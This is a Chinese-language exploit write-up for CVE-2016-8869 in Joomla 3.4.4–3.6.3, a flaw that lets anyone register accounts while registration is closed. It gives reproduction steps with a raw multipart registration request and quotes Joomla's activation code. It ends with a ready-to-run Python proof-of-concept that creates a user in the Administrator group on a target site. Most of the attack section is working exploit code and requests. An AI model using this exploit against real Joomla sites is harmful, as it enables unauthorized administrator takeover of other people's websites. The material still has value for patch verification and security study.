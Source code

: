 （CVE-2016-8869）Joomla 3.4.4-3.6.3 未授权创建特权用户
======================================================

一、漏洞简介
------------

网站关闭注册的情况下仍可创建用户，默认状态下用户需要用邮件激活，但需要开启注册功能才能激活。

二、漏洞影响
------------

Joomla 3.4.4-3.6.3

三、复现过程
------------

-   首先在后台关闭注册功能，关闭后首页没有注册选项：

![1.png](./resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId24.png)

-   .然后通过访问index.php抓包获取cookie，通过看index.php源码获取token：

![2.png](./resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId25.png)

-   构造注册请求：

```{=html}
<!-- -->
```
    POST /index.php/component/users/?task=registration.register HTTP/1.1
    ...
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryefGhagtDbsLTW5qI
    ...
    Cookie: yourcookie

    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[name]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[username]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password1]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password2]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email1]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email2]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="option"

    com_users
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="task"

    user.register
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="yourtoken"

    1
    ------WebKitFormBoundaryefGhagtDbsLTW5qI--

-   发包，成功注册：

![3.png](./resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId26.png)

### 补充

**2016-10-27 更新：**默认情况下，新注册的用户需要通过注册邮箱激活后才能使用。并且：

![4.jpeg](./resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId28.jpg)

由于`$data['activation']`的值会被覆盖，所以我们也没有办法直接通过请求更改用户的激活状态。

**2016-11-01 更新：**

感谢三好学生和D的提示，可以使用邮箱激活的前提是网站开启了注册功能，否则不会成功激活。

我们看激活时的代码，在`components/com_users/controllers/registration.php`中第28-99行的activate函数：

    public function activate()
    {
        $user    = JFactory::getUser();
        $input   = JFactory::getApplication()->input;
        $uParams = JComponentHelper::getParams('com_users');
        ...

        // If user registration or account activation is disabled, throw a 403.
        if ($uParams->get('useractivation') == 0 || $uParams->get('allowUserRegistration') == 0)
        {
            JError::raiseError(403, JText::_('JLIB_APPLICATION_ERROR_ACCESS_FORBIDDEN'));

            return false;
        }

        ...
    }

这里可以看到仅当开启注册功能时才允许激活，否则返回403。

### poc

![5.png](./resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId30.png)

    # coding: utf-8
    # CVE-2016-8869
    # author: Anka9080

    import re
    import requests
    import random

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[!] Cannot find CSRF token")
            return None
        print('[*] Your token is '+match.group(1))
        return match.group(1)

    def poc(target):
        headers = {
            "Content-Type":"application/x-www-form-urlencoded"
        }
        proxies = {
            'http':'127.0.0.1:8080'
        }
        s = requests.Session()
        r = s.get(target+'index.php/component/users/?task=registration.register',proxies=proxies) # get cookie
        token = extract_token(r)
        # print r.headers
        randstr = '_'+str(random.randint(1,10000))
        # build post data
        print('[*] create user: {}'.format('admin'+randstr))
        data = {
            # User object
            'task':(None,'user.register'),
            'option':(None,'com_users'),
            'user[name]': (None,'admin'+randstr),
            'user[username]': (None,'admin'+randstr),
            'user[password1]': (None,'admin'),
            'user[password2]': (None,'admin'),
            'user[email1]': (None,'admin'+randstr +'@xx.com'),
            'user[email2]': (None,'admin'+randstr +'@xx.com'),
            'user[groups][]': (None,'7'),   #  Administrator!
            token:(None,'1')
        }
        try:
            r = s.post(target+'index.php/component/users/?task=registration.register',files=data,proxies=proxies,allow_redirects=False)
            if 'index.php?option=com_users&view=registration' in r.headers['location']:
                print('[+] {} is vul !'.format(target))
                return True
        except Exception , e:
            print('[!] err: {}'.format(str(e)))

        return False


    if __name__ == '__main__':
        poc('http://localhost/joomla/Joomla_3.6.3-Stable-Full_Package/')    

参考链接
--------

> https://paper.seebug.org/86/
